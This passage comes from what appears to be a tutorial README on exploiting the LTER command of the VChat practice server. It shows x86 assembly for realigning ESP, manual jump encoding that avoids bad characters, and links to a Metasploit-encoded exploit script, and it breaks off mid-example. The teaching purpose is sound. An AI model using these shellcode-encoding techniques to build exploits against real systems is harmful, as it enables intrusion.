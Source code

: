 	4. The primary focus of this will be manually encoding the long jump instruction, but an example using the [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) output is included in [exploit7a.py](./SourceCode/exploit7a.py); we can see there are a few issues!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/7bcab6a2-4b9a-4f8d-99bb-676b9a7855d4
		
		* Below is the encoded shellcode once it has been injected 

			<img src="Images/I31.png" width=600>

4. Now we can go about manually encoding the short jump! This is so we can get the space to use a pre-made encoder to create our long jump!
	
	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d75ea194-1beb-4e5d-b9a0-3addc3748fe0

	1. First we want ot adjust the `ESP` register's value so in the course of our exploit we do not overwrite our own shellcode. This can be done with the following series of instructions.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack 
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	ADD AX,0x<VALUE>  ; Add to the lower 16 bytes of the register 
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	``` 
	* For the add instruction we need to do a little math! My ESP during this exploitation is at `0x010CEDE0`, the end of the 41 byte buffer is at `0x010CFFFF`, to get this we need to add `0x0000121F`.
		1. We could try adding this to the lower 16 bits in 2 instructions (The lower and upper lower half), however the `ADD AH,0x12` instruction has the value of `0x80C412` which contains a bad character `C4`!
			```
			ADD AL,0x1F
			ADD AH,0x12
			```
		2. Using the AX register allows us to do the addition in one instruction, without any bad characters 
			```
		    ADD AX,0x121F
			```
		3. If your addition constant contains a bad character, you may need to preform 2 or more additions with values containing only good characters as shown below to get the same result as the single addition.
		```
		; Bad Char Addition contains 0xD3
		ADD AX,0x13D3   

